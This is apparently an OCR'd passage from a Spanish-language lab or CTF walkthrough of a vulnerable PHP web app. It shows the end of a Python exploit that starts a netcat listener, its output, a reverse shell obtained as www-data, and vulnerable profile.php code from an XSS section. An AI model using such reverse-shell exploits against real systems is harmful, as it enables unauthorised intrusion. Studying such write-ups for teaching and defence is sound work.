 ```
else:
	print("[-] Fallo al configurar MoTD")
	sys.exit(-1)

print("[*] Iniciando NetCat...")
subprocess.Popen(["nc","-nvlp","%d" % lport])
time.sleep(1)
get_homepage()
```

Obteniendo una shell somo usuario `www-data`

```
❯ python3 set_motd.py 172.17.0.2 192.168.0.107 6bfifbv9t3b3gbtlvaojoa72jf
[+] MoTD cambiando

[*] Iniciando NetCat...
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [172.17.0.2] 48378
bash: cannot set terminal process group (130): Inappropriate ioctl for device
bash: no job control in this shell
www-data@c5b5a4eed888:/var/www/html$ whoami
whoami
www-data
```

----

## XSS

### Código vulnerable

Dentro del fichero `./profile.php` encontramos una condicional que evalua una consulta por el método `POST` donde en la variable `$description` guardará el contenido que introduzcamos. Se conectará a la base de datos de esta forma actualizará el campo `description` en la tabla `users`.  

```
[...]
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_POST['description'])) {
        $error = true;
    }
    else {
        $description = $_POST['description'];
        
        include('includes/db_connect.php');
        $ret = pg_prepare($db, "updatedescription_query", "update users set description = $1 where username = $2");
        $ret = pg_execute($db, "updatedescription_query", Array($description, $_SESSION['username']));
        $success = true;
    }
}
[...]
```
